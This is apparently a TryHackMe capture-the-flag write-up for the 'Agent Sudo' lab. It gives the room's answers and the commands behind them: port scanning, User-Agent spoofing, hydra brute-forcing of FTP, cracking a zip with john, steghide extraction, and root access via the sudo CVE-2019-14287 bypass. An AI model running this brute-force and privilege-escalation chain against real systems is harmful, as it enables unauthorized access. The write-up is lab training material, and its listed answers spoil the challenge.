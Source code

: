 # Agent Sudo (TRYHACKME) WriteUp

## How many open ports?

nmap <ip>
	
Ans:-3


## How you redirect yourself to a secret page?

Ans:- User-Agent

curl http://10.10.66.62 -H "User-Agent: C" - L


Output:-
```Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```

## What is the agent name?
Ans:- chris


## FTP password

hydra -l chris -P /file/dest/rockyou.txt ftp://10.10.66.62
Answer :- crystal

## Zip file password

binwalk -e image.png
zip2john file.zip > hash.txt
john hash.txt --wordlist=rockyou.txt
Answer :- alien

## steg password
steghide extract -sf image.png
Answer :- Area51

## Who is the other agent (in full name)?

Answer :- james

## SSH password

Answer :- hackerrules


## CVE number for the escalation 

(Format: CVE-xxxx-xxxx)

Answer: for priv-esc:- scp /location/linpeas.sh james@IP:/dev/shm

sudo -l tells us ->
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

CVE-2019-14287 : - To Get Root access we can try to mention a user that doesn't exists
sudo -u#-1 /bin/bash
